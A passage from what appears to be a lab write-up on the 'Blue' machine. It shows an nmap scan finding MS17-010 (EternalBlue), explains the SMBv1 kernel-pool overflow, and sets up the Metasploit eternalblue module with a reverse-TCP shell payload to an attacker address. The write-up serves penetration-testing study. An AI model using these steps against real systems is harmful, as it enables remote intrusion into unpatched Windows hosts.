 ```sh
❯ nmap -sS "10.10.10.40" -p "445" --script "vuln"
```

```
<SNIP>
PORT    STATE SERVICE
445/tcp open  microsoft-ds

Host script results:
|_smb-vuln-ms10-061: NT_STATUS_OBJECT_NAME_NOT_FOUND
|_smb-vuln-ms10-054: false
| smb-vuln-ms17-010: 
|   VULNERABLE:
|   Remote Code Execution vulnerability in Microsoft SMBv1 servers (ms17-010)
|     State: VULNERABLE
|     IDs:  CVE:CVE-2017-0143
|     Risk factor: HIGH
|       A critical remote code execution vulnerability exists in Microsoft SMBv1
|        servers (ms17-010).
|           
|     Disclosure date: 2017-03-14
|     References:
|       https://blogs.technet.microsoft.com/msrc/2017/05/12/customer-guidance-for-wannacrypt-attacks/
|       https://technet.microsoft.com/en-us/library/security/ms17-010.aspx
|_      https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2017-0143
<SNIP>
```

According to the `smb-vuln-ms17-010` script, Blue should be vulnerable to
[MS17-010](https://learn.microsoft.com/en-us/security-updates/securitybulletins/2017/ms17-010).

## Foothold ([MS17-010](https://learn.microsoft.com/en-us/security-updates/securitybulletins/2017/ms17-010))

[MS17-010](https://learn.microsoft.com/en-us/security-updates/securitybulletins/2017/ms17-010),
also known as EternalBlue, is a vulnerability in Windows' implementation of SMB.
This flaw stems from a buffer overflow within the `memmove` operation of the
`Srv!SrvOs2FeaToNt` function. The calculation of size in
`Srv!SrvOs2FeaListSizeToNt` contains a mathematical error, resulting in an
unintended subtraction of a DWORD from a WORD. This manipulation of the kernel
pool layout allows the overflow to overwrite an SMBv1 buffer. Then, an attacker
can hijack the RIP pointer in the `srvnet!SrvNetWskReceiveComplete` function by
sending a specific RPC request to the target system, thus gaining RCE.

### Preparation

I'll use the Metasploit module `exploit/windows/smb/ms17_010_eternalblue` to
exploit this vulnerability, since it's non-trivial to do by hand.

The goal is to obtain a reverse shell.

I'll set the `target` to `Windows 7`, the `payload` to
`payload/windows/x64/powershell_reverse_tcp`, the `RHOSTS` to `10.10.10.40`, the
`LHOST` to `10.10.14.4` and the `LPORT` to `9001`.
